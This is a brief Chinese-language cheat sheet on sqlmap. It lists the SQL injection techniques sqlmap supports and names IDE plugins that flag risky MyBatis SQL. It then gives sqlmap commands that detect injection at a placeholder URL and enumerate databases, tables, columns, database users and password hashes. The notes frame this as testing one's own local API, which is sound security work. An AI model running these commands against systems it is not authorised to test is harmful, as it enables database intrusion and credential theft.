 # sqlmap

- https://github.com/sqlmapproject/sqlmap
- https://sqlmap.org

自动 SQL 注入和数据库接管工具

支持的 SQL 注入技术：

1. 布尔盲注
2. 时间盲注
3. 错误注入
4. UNION查询注入
5. 堆叠查询
6. 带外注入

### sql注入 - MySQL

#### 1、分析出存在sql注入安全的接口

idea插件`Java Mybatis SQL Scanner`或`MOMO Code Sec Inspector` -> 扫描 Mybatis SQL XML 文件，分析出不规范或者潜在风险的SQL。

#### 2、sqlmap获取数据

```shell
# 直连数据库 -- 知道账号密码的情况下
python sqlmap.py -d "mysql://root:root@127.0.0.1:3306/demo" -f --banner --users

# 未知账号密码的情况下，可以用本地api接口地址来测试 (含有sql注入的接口  sql注入示例: WHERE id=1 and 1=1 )
# 判断是否存在注入
python sqlmap.py -u "http://url地址" --batch --banner
# 获取当前用户下的所有数据库
python sqlmap.py -u "http://url地址" --dbs
# 获取指定库的表名
python sqlmap.py -u "http://url地址" -D 库名 --tables
# 获取指定库+表名下的字段
python sqlmap.py -u "http://url地址" -D 库名 -T 表名 --columns
# 获取数据库账号
python sqlmap.py -u "http://url地址" --users
# 获取数据库密码
python sqlmap.py -u "http://url地址" --passwords
```
